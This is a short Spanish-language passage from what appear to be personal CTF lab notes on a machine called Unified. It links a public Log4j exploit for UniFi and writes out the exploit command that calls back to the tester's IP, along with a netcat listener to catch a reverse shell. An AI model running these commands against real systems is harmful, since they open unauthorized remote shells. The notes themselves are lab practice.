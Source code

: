 Cuando entramos al puerto 8080 que dice que es un http, nos redirigue a esta pagina
![[Unified4.png]]

[Link del CVE](https://github.com/puzzlepeaches/Log4jUnifi), Hicimos la instalacion que esta en el github
Ejecutamos el exploit ``python3 exploit.py -u https://10.129.228.2:8443 -i 10.10.16.17 -p 443`` estando en escucha con [[nc -nlvp 443]]

![[Unified5.png]]

![[Unified6.png]]
